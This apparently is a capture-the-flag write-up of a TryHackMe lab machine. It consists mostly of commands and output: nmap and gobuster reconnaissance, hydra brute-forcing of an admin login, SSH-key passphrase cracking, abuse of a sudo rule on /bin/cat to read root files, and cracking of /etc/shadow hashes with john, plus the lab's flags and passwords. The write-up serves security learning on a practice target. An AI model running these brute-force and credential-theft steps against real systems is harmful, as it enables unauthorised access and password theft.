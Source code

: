 **Tristan Gomez**

nmap
```
└─$ sudo nmap -sS -sV 10.10.102.54
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 14:58 PDT
Nmap scan report for 10.10.102.54
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.59 seconds

```


gobuster results
```
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/admin                (Status: 301) [Size: 312] [--> http://10.10.102.54/admin/]
/index.html           (Status: 200) [Size: 10918]                               
/server-status        (Status: 403) [Size: 277]      
```

/admin 

`<!-- Hey john, if you do not remember, the username is admin -->` hidden comment in source

`hydra -l admin -P /usr/share/wordlists/rockyou.txt  10.10.102.54 http-form-post "/admin:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid"`

```
[80][http-post-form] host: 10.10.102.54   login: admin   password: 123456
[80][http-post-form] host: 10.10.102.54   login: admin   password: iloveyou
[80][http-post-form] host: 10.10.102.54   login: admin   password: password
[80][http-post-form] host: 10.10.102.54   login: admin   password: nicole
[80][http-post-form] host: 10.10.102.54   login: admin   password: 12345678
[80][http-post-form] host: 10.10.102.54   login: admin   password: abc123
[80][http-post-form] host: 10.10.102.54   login: admin   password: 12345
[80][http-post-form] host: 10.10.102.54   login: admin   password: princess
[80][http-post-form] host: 10.10.102.54   login: admin   password: daniel
[80][http-post-form] host: 10.10.102.54   login: admin   password: rockyou
[80][http-post-form] host: 10.10.102.54   login: admin   password: 1234567
[80][http-post-form] host: 10.10.102.54   login: admin   password: 123456789
[80][http-post-form] host: 10.10.102.54   login: admin   password: babygirl
[80][http-post-form] host: 10.10.102.54   login: admin   password: jessica
[80][http-post-form] host: 10.10.102.54   login: admin   password: monkey
[80][http-post-form] host: 10.10.102.54   login: admin   password: lovely

```

hydra
`hydra -l admin -P /usr/share/wordlists/rockyou.txt  10.10.102.54 http-form-post "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid" -V`
`[80][http-post-form] host: 10.10.102.54   login: admin   password: xavier`

first flag
`THM{brut3_f0rce_is_e4sy}`

john's id_rsa
key to id_rsa =`rockinroll       (id_rsa)`

ssh in as `john`

user.txt
```
john@bruteit:~$ cat user.txt
THM{a_password_is_not_a_barrier}
```

```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
```
john@bruteit:/$ sudo /bin/cat root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

copy /etc/passwd and /etc/shadow

run `unshadow passwd shadow > unshadowed.txt` to combine them

then run john
`john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt `
`football         (root)`
